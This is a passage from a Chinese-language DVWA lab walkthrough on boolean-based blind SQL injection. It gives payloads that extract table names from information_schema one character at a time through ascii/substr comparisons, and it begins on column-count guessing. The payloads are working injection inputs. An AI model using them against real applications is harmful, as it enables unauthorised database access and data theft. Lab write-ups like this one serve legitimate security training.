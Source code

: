 

##### 尝试

```
# 第一张表
# 第一张表的第一位
1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))>102 # 提示存在 （大于f）

1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))<103 # 提示不存在 （不小于g）
# 第一张表的第一位为g

# 第一张表的第二位
1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),2,1))>116 # 提示存在 （大于t）

1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),2,1))<117 # 提示不存在 （不小于u）
# 第一张表的第二位为u
...
# 得到第一张表的表名为 guestbook

# 第二张表
# 第二张表的第一位
1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),1,1))>116 # 提示存在 （大于t）

1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),1,1))<117 # 提示不存在 （不小于u）
# 第二张表的第一位为u

# 第二张表的第二位
1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),2,1))>114 # 提示存在 （大于r）

1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),2,1))<115 # 提示不存在 （不小于s）
# 第二张表的第二位为s
...
# 得到第二张表的表名为 users
```



#### 猜解表的字段数量

##### 原理

```
先查出users表中的字段数量
select count(column_name) from information_schema.columns where table_name= 'users'

再依次猜解
```
